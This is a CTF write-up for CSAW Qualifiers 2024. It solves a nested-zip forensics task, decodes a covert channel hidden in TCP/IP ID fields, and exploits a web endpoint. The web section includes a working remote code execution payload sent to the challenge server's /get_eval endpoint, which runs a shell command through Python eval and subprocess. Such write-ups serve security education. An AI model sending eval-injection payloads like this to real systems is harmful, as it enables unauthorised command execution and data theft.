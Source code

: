 ```yaml
---
title: CSAW Qualifiers 2024
draft: false
tags:
  - ctf
---
```

> CSAW (see-SAW) is the world's most comprehensive student-run cybersecurity event. It serves as an engaging platform for experiential learning and aims to inspire students to pursue education and careers in the field of cybersecurity.

# Forensics

## ZipZipZipZi........

> Brighten up at last with the flag

We are given a singular zip file. When unzipping with `unzip challenge.zip`, we are given `chunk1.zip` and `chunk0.txt`. Looking at `chunk0.txt`, it looks like base64. So, we can assume we need to recursively unzip, grab all the chunks, and convert our base64 into a file.


```python
import subprocess
import base64

nextZip = "challenge.zip"
chunks = []

try:
    while True:
        if "zip" not in nextZip: break
        unzip = f"unzip {nextZip}"
        rm = f"rm {nextZip}"
        output = subprocess.check_output(unzip, shell=True).decode()
        if "extracting" in output:
            print(output)
            nextZip = output.split()[-1]
            print(f"Extracted {nextZip}")
            chunks.append(nextZip.replace(".zip", ".txt"))
            subprocess.check_output(rm, shell=True)
        else:
            print("Finished")
            break
except KeyboardInterrupt:
    print("ok we done")
    pass

base64png = ""
for chunk in chunks[:-1]:
    with open(chunk, "r") as f:
        base64png += f.read().strip()
with open("flag.png", "wb") as f:
    f.write(base64.b64decode(base64png + "=="))
```

## Covert

> It appears there's been some shady communication going on in our network...

Taking a quick look through the pcap, we notice some HTTP streams. For example, we find one with a Referer of 'https://people.cs.georgetown.edu/~clay/classes/spring2009/555/papers/Embedding_Covert_Channels_into_TCPIP.pdf'. Additionally, we can find what seems to be the script they used to do this covert TCP communication. 

```python
    # ez covert transfer...
    from scapy.all import IP, TCP, send

    key = ??

    dst_ip = &#34;X.X.X.X&#34;
    dst_port = ?????

    src_ip = &#34;X.X.X.X&#34;
    src_port = ?????

    def encode_message(message):
        for letter in message:
            ip = IP(dst=dst_ip, src=src_ip, id=ord(letter)*key)

            tcp = TCP(sport=src_port, dport=dst_port)

            send(ip/tcp)

    encode_message(&#34;????????????&#34;)
```

Quickly grabbing some of the first TCP packets, we can determine the original key.

```python
mapping = {
    ord('c'): 5445,
    ord('s'): 6325,
    ord('a'): 5335
}

# Find key where:
# ord('c') * key = 5445
# ord('s') * key = 6325
# ord('a') * key = 5335

for key in range(10000):
    if key * ord('c') == 5445 and key * ord('s') == 6325 and key * ord('a') == 5335:
        print(key)
        break

KEY = 55

import pyshark

pcap = pyshark.FileCapture('covert.pcapng')

for packet in pcap:
    try:
        ip_id = int(packet.ip.id, 16)
        print(chr(ip_id // KEY), end='')
    except Exception:
        pass
```

This script finds the key using three known characters (csa from the flag format of `csawctf{`). Then we can iterate through the pcap and decode the flag.

# Web

## playing on the backcourt

> yadayada playing tennis like pong yadayada someone's cheating yadayada at least the leaderboard is safe!

Looking through all the endpoints, you can simply make a `POST /get_eval` and you basically get RCE. Unsure if this was intended, but simple enough:

```python
import requests

def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr
    
    return deep_eval(nexpr)

cmd = "__import__('subprocess').check_output('cat leaderboard.txt', shell=True).decode()"

print(deep_eval(cmd))

BASE = 'https://backcourts.ctf.csaw.io/'

r = requests.post(BASE+'get_eval',
    json={"expr": cmd}
)

print(r.text)
```
